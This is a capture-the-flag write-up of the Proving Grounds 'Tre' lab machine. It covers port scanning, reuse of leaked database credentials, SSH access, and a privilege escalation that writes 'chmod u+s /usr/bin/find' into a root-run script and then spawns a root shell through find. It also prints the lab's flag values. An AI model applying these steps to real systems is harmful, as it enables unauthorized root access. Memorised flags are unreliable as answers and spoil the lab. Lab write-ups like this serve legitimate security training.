 ```yaml
---
title: Tre
categories: [Proving Grounds, Play]
tags: [PrivEsc, SUIDs, mysql]
image:
  path: https://miro.medium.com/v2/resize:fit:1400/1*tvdj2Mzlt4OnmYeU9vmBlA.jpeg
  alt:  Tre Machine 🖥️
---
```



### Lets see the IP address →

```bash
IP : 192.168.249.142
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.142
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-16 14:29 IST
Nmap scan report for 192.168.249.142
Host is up (0.00028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 99:1a:ea:d7:d7:b3:48:80:9f:88:82:2a:14:eb:5f:0e (RSA)
|   256 f4:f6:9c:db:cf:d4:df:6a:91:0a:81:05:de:fa:8d:f8 (ECDSA)
|_  256 ed:b9:a9:d7:2d:00:f8:1b:d3:99:d6:02:e5:ad:17:9f (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Tre
8082/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Tre
MAC Address: 00:0C:29:7F:7E:7D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ➡️

Lets see the webpage →

![Untitled](/Vulnhub-Files/img/Tre/Untitled.png)

Now after directory Traversal I found different sites or directories running different services so lets see the config files first for credentials →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Tre/Untitled%202.png)

```bash
# --- Database Configuration ---
$g_hostname      = 'localhost';
$g_db_username   = 'mantissuser';
$g_db_password   = 'password@123AS';
$g_database_name = 'mantis';
$g_db_type       = 'mysqli';
```
{: .nolineno}
{: .nolineno}

Lets use this credentials here `adminer.php` file →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%203.png)

After entering that data I am in →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%204.png)

Now I got the username and password credentials so lets alter that data and use it to login into the shell with our put data into it →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%205.png)

Now lets modify it now →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%206.png)

Now lets use this to replace our password hashes and save that →

I tried to access the ssh login with hash password but no luck , then I tried its different looking realnames and tried it as a passwords and see I got in as tre user →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142     
tre@192.168.249.14 password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue May 12 23:56:00 2020 from 192.168.17.172
tre@tre:~$ whoami
tre
tre@tre:~$ id
uid=1000(tre) gid=1000(tre) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
tre@tre:~$
```
{: .nolineno}
{: .nolineno}

Lets see `local.txt` file →

```bash
tre@tre:~$ ls -al
total 24
drwxr-xr-x 2 tre  tre  4096 Aug 23  2020 .
drwxr-xr-x 3 root root 4096 May 11  2020 ..
-rw-r--r-- 1 tre  tre   220 May 11  2020 .bash_logout
-rw-r--r-- 1 tre  tre  3526 May 11  2020 .bashrc
-rw-r--r-- 1 tre  tre    33 Jul 16 06:52 local.txt
-rw-r--r-- 1 tre  tre   807 May 11  2020 .profile
tre@tre:~$ cat local.txt
ec6b0276b5cbf898afe3bdb7c8da36b1
tre@tre:~$
```
{: .nolineno}
{: .nolineno}

Now while cheching proccess running I got this →

![Untitled](/Vulnhub-Files/img/Tre/Untitled%207.png)

```bash
tre@tre:/tmp$ ls -al /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
tre@tre:/tmp$ sudo -l
Matching Defaults entries for tre on tre:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
tre@tre:/tmp$
tre@tre:/tmp$ cat /usr/bin/check-system
DATE=`date '+%Y-%m-%d %H:%M:%S'`
echo "Service started at ${DATE}" | systemd-cat -p info

while :
do
echo "Checking...";
sleep 1;
done
tre@tre:/tmp$
```
{: .nolineno}
{: .nolineno}

So after trying this `sudo shutdown` I got this →

```bash
tre@tre:/tmp$ sudo shutdown
Shutdown scheduled for Sun 2023-07-16 06:28:59 EDT, use 'shutdown -c' to cancel.
tre@tre:/tmp$
```
{: .nolineno}
{: .nolineno}

means that I execute my command on writing into `/usr/bin/check-system` file and when I execute the `sudo shutdown` command it will also execute as root user so lets do it —>

```bash
tre@tre:~$ echo 'chmod u+s /usr/bin/find'> /usr/bin/check-system
tre@tre:~$ sudo /sbin/shutdown -r now
tre@tre:~$ Connection to 192.168.249.142 closed by remote host.
Connection to 192.168.249.142 closed.
```
{: .nolineno}
{: .nolineno}

Now its time to restart the tre shell with ssh commands and lets check the `/usr/bin/find` command got SUIDs permissions or not →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/TRE]
└─$ sudo ssh tre@192.168.249.142 -p 22    
tre@192.168.249.142s password: 
Linux tre 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 16 06:35:35 2023 from 192.168.249.128
tre@tre:~$ ls -al /usr/bin/find
-rwsr-xr-x 1 root root 315904 Feb 16  2019 /usr/bin/find
tre@tre:~$ find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
root
bash-5.0# id
uid=1000(tre) gid=1000(tre) euid=0(root) groups=1000(tre),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
bash-5.0# cd /root
bash-5.0# ls -al
total 24
drwx------  2 root root 4096 Jul 16 06:52 .
drwxr-xr-x 18 root root 4096 Jul  7  2020 ..
-rw-------  1 root root    0 Sep  3  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Jul 16 06:52 proof.txt
-rw-r--r--  1 root root   32 Aug 23  2020 root.txt
bash-5.0# cat proof.txt
71a1ba68d15d0ebde47c8b8090b065cf
bash-5.0# cat root.txt
Your flag is in another file...
bash-5.0#
```
{: .nolineno}

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }